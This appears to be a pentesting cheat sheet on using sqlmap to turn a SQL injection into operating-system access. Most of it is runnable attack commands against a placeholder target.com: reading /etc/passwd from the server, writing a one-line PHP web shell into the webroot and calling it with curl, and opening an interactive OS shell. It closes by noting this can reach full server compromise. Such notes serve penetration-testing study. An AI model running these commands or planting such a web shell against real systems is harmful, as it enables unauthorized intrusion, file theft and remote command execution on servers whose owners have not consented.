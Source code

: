 ### SQLMap OS Exploitation

SQLMap can exploit SQL injection vulnerabilities to interact with the operating system of the database server. This includes reading/writing files and achieving OS command execution.
### Checking DBA Privileges

Use `--is-dba` to check if the current DB user has DBA privileges:

```bash
sqlmap -u "http://target.com/?id=1" --is-dba
```
### Reading Local Files

Read files on the server using `--file-read`:

```bash
sqlmap -u "http://target.com/?id=1" --file-read="/etc/passwd"
```

File will be saved under:

```
~/.sqlmap/output/<target>/files/_etc_passwd
```
### Writing Files to Remote Server

Prepare a PHP web shell:

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

Write it to the remote webroot:

```bash
sqlmap -u "http://target.com/?id=1" --file-write="shell.php" --file-dest="/var/www/html/shell.php"
```

Test the shell:

```bash
curl http://target.com/shell.php?cmd=whoami
```
### Getting an Interactive OS Shell

Use `--os-shell` to attempt command execution:

```bash
sqlmap -u "http://target.com/?id=1" --os-shell
```

If needed, specify SQLi technique:

```bash
sqlmap -u "http://target.com/?id=1" --os-shell --technique=E
```

SQLMap may upload a PHP backdoor and allow interactive shell commands. Type `x` or `q` to exit.
### Notes

- DBA privileges often required for file write and command execution.
- Techniques used depend on DBMS (e.g., `xp_cmdshell` for MSSQL).
- SQLMap automates UDF creation for Linux shells on MySQL.    
- Use `--batch` to skip interactive prompts.

With these features, SQLMap can pivot from DB access to full server compromise if permissions allow.
# Tags
> #Exploitation #Service-Exploitation #MySQL #SQLmap #SQL-injection